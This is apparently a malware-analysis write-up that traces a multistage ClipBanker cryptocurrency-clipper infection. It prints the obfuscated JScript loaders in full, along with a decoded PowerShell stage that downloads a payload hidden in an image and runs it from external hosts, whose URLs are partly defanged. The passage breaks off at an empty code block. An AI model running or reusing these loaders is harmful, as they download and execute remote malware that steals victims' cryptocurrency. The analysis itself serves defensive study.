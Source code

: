 ```yaml
---
tags: ClipBanker
---
```


## MultiStage ClipBanker - JavaScript to Injection

RedLine Clipper (aka ClipBanker) is specifically designed to steal cryptocurrencies by replacing the user’s system clipboard activities with the wallet address under the control of attackers. 

## Initial JavaScript

``` powershell
function TwtgaWCivnsxiQCbwJSLTCoEJMdptJClJHpZjAWDdZiSqltCvhdULoxXBHwyHFsZGOAumfobRmSZYGcnTOqlQIORHhyqfcitfVIVoRXnknNbOnVerxNCyeaBAnMEDuvyWPYATkqBNDZeMFnDOCskmTaUSfpbVTXPKKBNtUyFSBdQbdByWNvZaxWgdUegnKYPirtLGYpA(str) {
    return str.split('').reverse().join('');
}

var oPFGPIuwcHruJTqFXjackEDlcnSzkthlCzIxXlRxaOutOoYGbxOJUKfcrtBMDtjLncxhrEnaotOSkdlvRkrSPphrTeSAxkMlnajBFllHaaMPVqXpMfUyXfABgdmnGxUicFvvXnegWxKqCEcNpydCZTlzoPAHStszEyriqeEaCkwZHyLRCPbAclBysrLOoipeWFgBnPbj = "56wui/d/ee.etsap//:sptth";
var cumuxNDEeacpyaraANJjLJnjKWjsdTrCJBWmgiGbHiuUIbVrZIQDORghDNrMPsyUzaOqvclFsaAspOPMMsRRVxjwjEHSFNjjlaJyfnBefRcZGdPVEHzEDwYZHiYlWgtzZIrqwJncSyvGXRdtQmwOgNmnXYtFaUYsLwaEJLZVsBorPpnRuJbiAmWofsqthdWXRodWaxKM = TwtgaWCivnsxiQCbwJSLTCoEJMdptJClJHpZjAWDdZiSqltCvhdULoxXBHwyHFsZGOAumfobRmSZYGcnTOqlQIORHhyqfcitfVIVoRXnknNbOnVerxNCyeaBAnMEDuvyWPYATkqBNDZeMFnDOCskmTaUSfpbVTXPKKBNtUyFSBdQbdByWNvZaxWgdUegnKYPirtLGYpA(oPFGPIuwcHruJTqFXjackEDlcnSzkthlCzIxXlRxaOutOoYGbxOJUKfcrtBMDtjLncxhrEnaotOSkdlvRkrSPphrTeSAxkMlnajBFllHaaMPVqXpMfUyXfABgdmnGxUicFvvXnegWxKqCEcNpydCZTlzoPAHStszEyriqeEaCkwZHyLRCPbAclBysrLOoipeWFgBnPbj);

var BrBaUNfshzTYuatBKvgqoIJUECNQrrYReHtKDTCqurBnbAdZSxzIZjRObRMPzLaicRZnQkFIqMMyCWveHIPWPJxKyxjNKHwrjCuFIKPnxUVUwYWLnpcclMXOSUbAmZbpTuJvXsXbpqKsMeoWvLKApYUccAfUXpsuZOdgNwpgnWLKnJxDqgbsBzGoNgAzsbjeRIGvoejL = new ActiveXObject("MSXML2.ServerXMLHTTP");
BrBaUNfshzTYuatBKvgqoIJUECNQrrYReHtKDTCqurBnbAdZSxzIZjRObRMPzLaicRZnQkFIqMMyCWveHIPWPJxKyxjNKHwrjCuFIKPnxUVUwYWLnpcclMXOSUbAmZbpTuJvXsXbpqKsMeoWvLKApYUccAfUXpsuZOdgNwpgnWLKnJxDqgbsBzGoNgAzsbjeRIGvoejL.open("GET", cumuxNDEeacpyaraANJjLJnjKWjsdTrCJBWmgiGbHiuUIbVrZIQDORghDNrMPsyUzaOqvclFsaAspOPMMsRRVxjwjEHSFNjjlaJyfnBefRcZGdPVEHzEDwYZHiYlWgtzZIrqwJncSyvGXRdtQmwOgNmnXYtFaUYsLwaEJLZVsBorPpnRuJbiAmWofsqthdWXRodWaxKM, false);
BrBaUNfshzTYuatBKvgqoIJUECNQrrYReHtKDTCqurBnbAdZSxzIZjRObRMPzLaicRZnQkFIqMMyCWveHIPWPJxKyxjNKHwrjCuFIKPnxUVUwYWLnpcclMXOSUbAmZbpTuJvXsXbpqKsMeoWvLKApYUccAfUXpsuZOdgNwpgnWLKnJxDqgbsBzGoNgAzsbjeRIGvoejL.send();

var zFRcqeVmscmYglMSIKZAFqrssqIFeUgbGdouShnFfqpDAimEMJkAyPxIcPDUpQQAMmYIVtUFfORiLjLCeEUXtOPBVuPvoWYsuhhZOrGMMOgfinDwtmaWyqxlWykOsjqbWlPcJphRbNOKfyAANzexSiOpBsamnhxbXEknDRwbAgKIcMSduPSyCmavuzOxxPFKJyiqQhxu = BrBaUNfshzTYuatBKvgqoIJUECNQrrYReHtKDTCqurBnbAdZSxzIZjRObRMPzLaicRZnQkFIqMMyCWveHIPWPJxKyxjNKHwrjCuFIKPnxUVUwYWLnpcclMXOSUbAmZbpTuJvXsXbpqKsMeoWvLKApYUccAfUXpsuZOdgNwpgnWLKnJxDqgbsBzGoNgAzsbjeRIGvoejL.responseText;

(function() {
    eval(zFRcqeVmscmYglMSIKZAFqrssqIFeUgbGdouShnFfqpDAimEMJkAyPxIcPDUpQQAMmYIVtUFfORiLjLCeEUXtOPBVuPvoWYsuhhZOrGMMOgfinDwtmaWyqxlWykOsjqbWlPcJphRbNOKfyAANzexSiOpBsamnhxbXEknDRwbAgKIcMSduPSyCmavuzOxxPFKJyiqQhxu);
})();
```

Besides the very long annoying variable names, this initial script is quite simple, it takes the string "56wui/d/ee.etsap//:sptth", reverses it, and executes the contents of that URL.

Now we know where the second stage is hosted, we'll head over and download the contents to investigate further.

## 2nd Stage - Further JavaScript

``` powershell
    var gQBnV = false;

    function PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI(LpxIb) {
        return LpxIb.split('').reverse().join('');
    }
   
    var olffySApjnmNzEVCrHdsmIvkvtrmdvjBfknvClSyBGJHuqChGtDdwNjUtRxkkyfJOYUiJGZMAThKDTsUxGJuaNqSbTPvTbbqmefDGsXrinQyOMnXQfeSjWxgZKFIubTWXJNqCxTJwTRbGDBclyLnPEmbnFRmJCPDQxEhyrMtITkhfcVQBxcMaJXujuQBrVucxLrEASLY = PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI("♚♛kC♚♛p♚♛wJ♚♛UG♚♛tBQY♚♛4E♚♛rBgb♚♛wE♚♛n♚♛♚♛I♚♛wC♚♛n♚♛♚♛X♚♛EG♚♛0BQY♚♛QE♚♛tBQY♚♛IH♚♛nBwb♚♛IH♚♛QB♚♛X♚♛oD♚♛DBwJ♚♛♚♛C♚♛s♚♛♚♛I♚♛cC♚♛x♚♛wJ♚♛♚♛C♚♛s♚♛♚♛I♚♛cC♚♛lBQb♚♛EG♚♛OBwc♚♛IG♚♛WBwJ♚♛♚♛C♚♛s♚♛♚♛I♚♛cC♚♛y♚♛wJ♚♛♚♛C♚♛s♚♛♚♛I♚♛cC♚♛n♚♛♚♛I♚♛wC♚♛g♚♛wJ♚♛gG♚♛0B♚♛d♚♛♚♛H♚♛zBgO♚♛8C♚♛v♚♛♚♛c♚♛EG♚♛zB♚♛d♚♛UG♚♛u♚♛QZ♚♛UG♚♛v♚♛♚♛Z♚♛8C♚♛VBQN♚♛cD♚♛LBQa♚♛8C♚♛w♚♛wJ♚♛gC♚♛g♚♛QX♚♛0F♚♛bB♚♛d♚♛MG♚♛lBga♚♛IG♚♛vBwW♚♛♚♛C♚♛s♚♛♚♛b♚♛wG♚♛1Bgb♚♛QC♚♛o♚♛QZ♚♛sG♚♛vBgd♚♛4G♚♛JBgL♚♛kC♚♛n♚♛gb♚♛UH♚♛SBwJ♚♛gC♚♛kBwb♚♛gG♚♛0BQZ♚♛0E♚♛0BQZ♚♛cE♚♛u♚♛QZ♚♛♚♛H♚♛5B♚♛d♚♛QC♚♛g♚♛QP♚♛♚♛C♚♛kBwb♚♛gG♚♛0BQZ♚♛0G♚♛k♚♛wO♚♛kC♚♛n♚♛QM♚♛MH♚♛zBQY♚♛wG♚♛DBgL♚♛MD♚♛5Bgc♚♛EG♚♛yBgY♚♛kG♚♛MBwc♚♛MH♚♛hB♚♛b♚♛ME♚♛n♚♛♚♛K♚♛UG♚♛wBQe♚♛QF♚♛0BQZ♚♛cE♚♛u♚♛Qe♚♛wG♚♛iBQb♚♛UG♚♛zBwc♚♛EE♚♛kBQZ♚♛QG♚♛hBwb♚♛wG♚♛k♚♛♚♛I♚♛0D♚♛g♚♛QZ♚♛♚♛H♚♛5B♚♛d♚♛QC♚♛7♚♛QK♚♛MH♚♛lB♚♛d♚♛kH♚♛CB♚♛Z♚♛4G♚♛hBQb♚♛0G♚♛vBwY♚♛QC♚♛o♚♛♚♛Z♚♛EG♚♛vB♚♛T♚♛oD♚♛6♚♛QX♚♛kH♚♛sBgY♚♛0G♚♛lBwc♚♛MH♚♛BBgL♚♛4G♚♛vBQa♚♛QH♚♛jBQZ♚♛wG♚♛mBQZ♚♛IF♚♛u♚♛Qb♚♛UG♚♛0Bwc♚♛kH♚♛TBwW♚♛♚♛C♚♛9♚♛♚♛I♚♛kH♚♛sBgY♚♛0G♚♛lBwc♚♛MH♚♛BB♚♛Z♚♛UG♚♛kBQY♚♛8G♚♛sB♚♛J♚♛sD♚♛p♚♛♚♛Z♚♛4G♚♛hBQb♚♛0G♚♛vBwQ♚♛QD♚♛2♚♛QZ♚♛MH♚♛hBgY♚♛QC♚♛o♚♛wZ♚♛4G♚♛pBgc♚♛QH♚♛TB♚♛N♚♛YD♚♛lBwc♚♛EG♚♛CBQb♚♛8G♚♛yBgR♚♛oD♚♛6♚♛QX♚♛QH♚♛yBQZ♚♛YH♚♛uBwb♚♛ME♚♛u♚♛Qb♚♛UG♚♛0Bwc♚♛kH♚♛TBwW♚♛♚♛C♚♛9♚♛♚♛I♚♛MH♚♛lB♚♛d♚♛kH♚♛CB♚♛Z♚♛4G♚♛hBQb♚♛0G♚♛vBwY♚♛QC♚♛7♚♛QK♚♛gG♚♛0BwZ♚♛4G♚♛lB♚♛T♚♛QD♚♛2♚♛QZ♚♛MH♚♛hBgY♚♛QC♚♛g♚♛♚♛L♚♛gH♚♛lB♚♛Z♚♛4G♚♛JB♚♛d♚♛IH♚♛hB♚♛d♚♛MH♚♛k♚♛♚♛K♚♛cG♚♛uBQa♚♛IH♚♛0Bwc♚♛IG♚♛1BwU♚♛4C♚♛0B♚♛e♚♛UG♚♛UBQZ♚♛cG♚♛hBQb♚♛kG♚♛k♚♛♚♛I♚♛0D♚♛g♚♛♚♛Z♚♛4G♚♛hBQb♚♛0G♚♛vBwQ♚♛QD♚♛2♚♛QZ♚♛MH♚♛hBgY♚♛QC♚♛7♚♛♚♛e♚♛UG♚♛kBgb♚♛kE♚♛0Bgc♚♛EG♚♛0Bwc♚♛QC♚♛g♚♛QL♚♛♚♛C♚♛4BQZ♚♛QG♚♛uBQS♚♛QG♚♛uBQZ♚♛QC♚♛g♚♛QP♚♛♚♛C♚♛oB♚♛d♚♛cG♚♛uBQZ♚♛wE♚♛0♚♛gN♚♛UG♚♛zBQY♚♛IG♚♛k♚♛wO♚♛gG♚♛0BwZ♚♛4G♚♛lB♚♛T♚♛4C♚♛nBQY♚♛wG♚♛GB♚♛d♚♛IH♚♛hB♚♛d♚♛MH♚♛k♚♛♚♛I♚♛0D♚♛r♚♛♚♛I♚♛gH♚♛lB♚♛Z♚♛4G♚♛JB♚♛d♚♛IH♚♛hB♚♛d♚♛MH♚♛k♚♛wO♚♛gH♚♛lB♚♛Z♚♛4G♚♛JB♚♛d♚♛IH♚♛hB♚♛d♚♛MH♚♛k♚♛♚♛I♚♛QH♚♛nBQL♚♛♚♛C♚♛4BQZ♚♛QG♚♛uBQS♚♛QG♚♛uBQZ♚♛QC♚♛g♚♛♚♛Z♚♛4G♚♛hBQL♚♛♚♛C♚♛w♚♛♚♛I♚♛UG♚♛nBQL♚♛♚♛C♚♛4BQZ♚♛QG♚♛uBQS♚♛QH♚♛yBQY♚♛QH♚♛zB♚♛J♚♛sD♚♛p♚♛wZ♚♛EG♚♛sBgR♚♛QG♚♛uBQZ♚♛QC♚♛o♚♛gZ♚♛8E♚♛4BQZ♚♛QG♚♛uBQS♚♛4C♚♛0B♚♛e♚♛UG♚♛UBQZ♚♛cG♚♛hBQb♚♛kG♚♛k♚♛♚♛I♚♛0D♚♛g♚♛♚♛e♚♛UG♚♛kBgb♚♛kE♚♛kBgb♚♛UG♚♛k♚♛wO♚♛kC♚♛nBQY♚♛wG♚♛GB♚♛d♚♛IH♚♛hB♚♛d♚♛MH♚♛k♚♛♚♛K♚♛YG♚♛PB♚♛e♚♛UG♚♛kBgb♚♛kE♚♛u♚♛♚♛d♚♛gH♚♛lB♚♛V♚♛UG♚♛nBQY♚♛0G♚♛pB♚♛J♚♛♚♛C♚♛9♚♛♚♛I♚♛gH♚♛lB♚♛Z♚♛4G♚♛JB♚♛d♚♛IH♚♛hB♚♛d♚♛MH♚♛k♚♛wO♚♛cC♚♛+♚♛gP♚♛QE♚♛OBQR♚♛8F♚♛0♚♛gN♚♛UE♚♛TBQQ♚♛IE♚♛8♚♛♚♛P♚♛cC♚♛g♚♛QP♚♛♚♛C♚♛nBQY♚♛wG♚♛GB♚♛Z♚♛4G♚♛lB♚♛J♚♛sD♚♛n♚♛gP♚♛4D♚♛UBgU♚♛EE♚♛UBwU♚♛8F♚♛0♚♛gN♚♛UE♚♛TBQQ♚♛IE♚♛8♚♛♚♛P♚♛cC♚♛g♚♛QP♚♛♚♛C♚♛nBQY♚♛wG♚♛GB♚♛d♚♛IH♚♛hB♚♛d♚♛MH♚♛k♚♛wO♚♛kC♚♛zBQZ♚♛QH♚♛5BgQ♚♛UG♚♛nBQY♚♛0G♚♛pB♚♛J♚♛gC♚♛nBgb♚♛kG♚♛yB♚♛d♚♛MF♚♛0BQZ♚♛cE♚♛u♚♛♚♛O♚♛YE♚♛UBQV♚♛oD♚♛6♚♛QX♚♛cG♚♛uBQa♚♛QG♚♛vBwY♚♛4G♚♛FBgL♚♛QH♚♛4BQZ♚♛QF♚♛u♚♛Qb♚♛UG♚♛0Bwc♚♛kH♚♛TBwW♚♛♚♛C♚♛9♚♛♚♛I♚♛QH♚♛4BQZ♚♛QF♚♛lBwZ♚♛EG♚♛tBQa♚♛QC♚♛7♚♛QK♚♛wG♚♛yBQV♚♛UG♚♛nBQY♚♛0G♚♛pB♚♛J♚♛gC♚♛hB♚♛d♚♛EG♚♛EB♚♛Z♚♛EG♚♛vB♚♛b♚♛4G♚♛3Bwb♚♛QE♚♛u♚♛♚♛d♚♛4G♚♛lBQa♚♛wG♚♛DBgY♚♛UG♚♛3B♚♛J♚♛♚♛C♚♛9♚♛♚♛I♚♛MH♚♛lB♚♛d♚♛kH♚♛CBQZ♚♛cG♚♛hBQb♚♛kG♚♛k♚♛wO♚♛QH♚♛uBQZ♚♛kG♚♛sBwQ♚♛IG♚♛lBwV♚♛4C♚♛0BQZ♚♛4E♚♛u♚♛Qb♚♛UG♚♛0Bwc♚♛kH♚♛TB♚♛I♚♛QH♚♛jBQZ♚♛oG♚♛iBwT♚♛0C♚♛3BQZ♚♛4E♚♛g♚♛QP♚♛♚♛C♚♛0Bgb♚♛UG♚♛pB♚♛b♚♛ME♚♛iBQZ♚♛cH♚♛k♚♛wO♚♛cC♚♛5♚♛♚♛M♚♛YD♚♛x♚♛QO♚♛UD♚♛y♚♛♚♛M♚♛cD♚♛x♚♛wP♚♛cG♚♛wBga♚♛4C♚♛zBga♚♛8C♚♛sBQY♚♛4G♚♛pBwZ♚♛kG♚♛yBwb♚♛8C♚♛3♚♛QN♚♛ID♚♛v♚♛QM♚♛kD♚♛2♚♛wL♚♛QD♚♛w♚♛♚♛M♚♛8C♚♛zBQZ♚♛cG♚♛hBQb♚♛kG♚♛v♚♛gc♚♛IG♚♛u♚♛Qb♚♛8G♚♛jBgL♚♛MH♚♛uBQZ♚♛cG♚♛hBQb♚♛kG♚♛lB♚♛Z♚♛QG♚♛hBwb♚♛wG♚♛wBQd♚♛8C♚♛v♚♛gO♚♛MH♚♛wB♚♛d♚♛QH♚♛oBwJ♚♛♚♛C♚♛9♚♛♚♛I♚♛wG♚♛yBQV♚♛UG♚♛nBQY♚♛0G♚♛pB♚♛J");
    var hanqbbYcWLzDlNxOPncjvQCBQonxVECthpIBwsmoBBvosDsujcOzxzaSUiwwkpZHunsTFbSwqYqacScohDNICrUwvjkGulSfZZmeTtftPaPdvKsQTJQISdssGpxQIUGuxwhWPmoCMGohuYLXDyTwcGOtBtKBHZMXyOJlkQOEhkiqLvzhicJrDPknYXzFTodoezdLgRHq = PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI("' = ogidoC$") + 
    olffySApjnmNzEVCrHdsmIvkvtrmdvjBfknvClSyBGJHuqChGtDdwNjUtRxkkyfJOYUiJGZMAThKDTsUxGJuaNqSbTPvTbbqmefDGsXrinQyOMnXQfeSjWxgZKFIubTWXJNqCxTJwTRbGDBclyLnPEmbnFRmJCPDQxEhyrMtITkhfcVQBxcMaJXujuQBrVucxLrEASLY + "';" +
    PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI("S[ = dxujWO$") + 
    PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI("eT.metsy") + 
    PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI("nU::]gnidocnE.tx") + 
    PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI("eG.edoci") + 
    PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI("C.metsyS[(gnirtSt") + 
    PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI("6esaBmorF::]trevno") + 
    PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI("lper.ogidoc$(gnirtS4") + 
    PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI(";)) )'A','♚♛'(eca") +
    PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI("niw- exe.llehsrewop") + 
    PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI("exe- neddih elytswod") + 
    PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI("N- ssapyb ycilopnoituc") + 
    PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI("moc- eliforPo") + 
    PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI("dxujWO$ dnam");
    var eDiSkbNqurqMJDuUiMjNdhOPQQQBvgCftSEHiubYOGUaguzUTNMYeXrTtQOfKyfoAYstCerExYstbTlKouLwhYrnRQphSSARgdjkjrVfvyUZpnHZUSKwsqxMwNFXqElpakdDRQTBboYYHlOHdpQuaUtcDulXphSoyytwUdssTCfGwUoaWBxOUbiVhnwlqCxQURynpcjj = "\x57\x53\x63\x72\x69\x70\x74\x2E\x53\x68\x65\x6C\x6C"
    var ESlFnRWpugflXfvZqSyJlkwsMpcbzCAvFjVaLHGmHCPVjVevdKGGqImgXdntYCyHpCJZWNwKzrUiJEdtUbSUwZDEcrUscveYRSCVwMyIGRzKcZGjcknRtkmrhtoHYyjrUqVpSuBjUVbcmXfLCWiAdbpEMwWATsqxmdxuDKODAfEFiwTDSExHzcsrUPrmOKWPyRGNlldF = new ActiveXObject(eDiSkbNqurqMJDuUiMjNdhOPQQQBvgCftSEHiubYOGUaguzUTNMYeXrTtQOfKyfoAYstCerExYstbTlKouLwhYrnRQphSSARgdjkjrVfvyUZpnHZUSKwsqxMwNFXqElpakdDRQTBboYYHlOHdpQuaUtcDulXphSoyytwUdssTCfGwUoaWBxOUbiVhnwlqCxQURynpcjj);
    ESlFnRWpugflXfvZqSyJlkwsMpcbzCAvFjVaLHGmHCPVjVevdKGGqImgXdntYCyHpCJZWNwKzrUiJEdtUbSUwZDEcrUscveYRSCVwMyIGRzKcZGjcknRtkmrhtoHYyjrUqVpSuBjUVbcmXfLCWiAdbpEMwWATsqxmdxuDKODAfEFiwTDSExHzcsrUPrmOKWPyRGNlldF.Run("\x70\x6F\x77\x65\x72\x73\x68\x65\x6C\x6C\x20\x2D\x63\x6F\x6D\x6D\x61\x6E\x64 \"" + hanqbbYcWLzDlNxOPncjvQCBQonxVECthpIBwsmoBBvosDsujcOzxzaSUiwwkpZHunsTFbSwqYqacScohDNICrUwvjkGulSfZZmeTtftPaPdvKsQTJQISdssGpxQIUGuxwhWPmoCMGohuYLXDyTwcGOtBtKBHZMXyOJlkQOEhkiqLvzhicJrDPknYXzFTodoezdLgRHq + "\"", 0, false);
```

Again, annoyingly long variable names, we can rename these just to make it a little less of an eye sore.

We can then work out parts of the script, simply by reversing the strings for the PowerShell part, and doing a From Hex operation on the later parts.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/9838b0c5-600c-4c17-bab6-ef82d75c67a9)

The Base64 element can be analysed by utilising the following Operators in CyberChef:

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/de584242-bd66-4c9e-b305-39a9e120e00b)

Which reveals the following:

``` powershell
$imageUrl = 'hxxps[://]uploaddeimagens.com[.]br/images/004/691/257/original/js.jpg?1702591609';$webClient = New-Object System.Net.WebClient;$imageBytes = $webClient.DownloadData($imageUrl);$imageText = [System.Text.Encoding]::UTF8.GetString($imageBytes);$startFlag = '<<BASE64_START>>';$endFlag =
'<<BASE64_END>>';$startIndex = $imageText.IndexOf($startFlag);$endIndex = $imageText.IndexOf($endFlag);$startIndex -ge 0 -and $endIndex -gt $startIndex;$startIndex += $startFlag.Length;$base64Length = $endIndex - $startIndex;$base64Command = $imageText.Substring($startIndex, $base64Length);$commandBytes =
[System.Convert]::FromBase64String($base64Command);$loadedAssembly = [System.Reflection.Assembly]::Load($commandBytes);$type = $loadedAssembly.GetType('ClassLibrary3.Class1');$method = $type.GetMethod('Run').Invoke($null, [object[]] ('0/iK75U/d/ee.etsap//:sptth' , '' , '2' , 'VbsName' , '1' , 'C:\ProgramData\',
'LnkName'))
```
## 3rd Stage - Some Executables

There are 2 interesting URLs within this command block:

[-] hxxps[://]uploaddeimagens.com[.]br/images/004/691/257/original/js.jpg?1702591609

[-] hxxps[://]paste[.]ee/d/U57Ki/0

For the first URL, it reads the bytes between 2 flags present in the strings of an image file and executes them. The 2nd URL is passed as an argument - which will make more sense later.

We can extract the contents of the first by downloading the image, running a strings command, and extracting the code between the <<BASE64_START>> and <<BASE64_END>> flags.

```
curl https://uploaddeimagens.com.br/images/004/691/257/original/js.jpg?1702591609 -o test.txt | strings test.txt
```
![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/87dd46b6-366f-44d2-8768-9c26fae6b070)

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/7ae91d50-d7f6-42f1-8b17-eaf7dee97fdf)

When decoding this from Base64 we are given an executable file.

The second URL contains a reversed Base64 string which contains another executable.

**1st Executable SHA 256**: e7e22e5e0f47fe2c2aa71f293e609c4fac901823dce6c6ae39400d1c2f02df54

**2nd Executable SHA 256**: 8c21274f725299022fbf415925210da65702198913c4713dfe5dda09ceb2d38a

The first executable appears to be a generic loader / malware deployment framework.

Within the first line after the entry point, we can see the variable 'LAbWJK' which is the name given to the 2nd executable, as it was given as an argument in the previous PowerShell command.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/74401b9a-3d72-4a46-8ecc-ccf43619ed47)

Moving down, there are references to generic persistence mechanisms, which in this case, have not been enabled. 

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/071802e4-6b24-48e3-ad53-319043036be8)

Next, we can see more Base64 content being extracted from an image, reversed, and executed.
![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/fe9c374a-5c80-4d55-870e-77a7635ef61f)

After reversing the string, downloading the image, reversing the base64 and decoding to an executable, we are presented with a binary whose sole purpose is to inject code.

**References to Injection:**
``` powershell
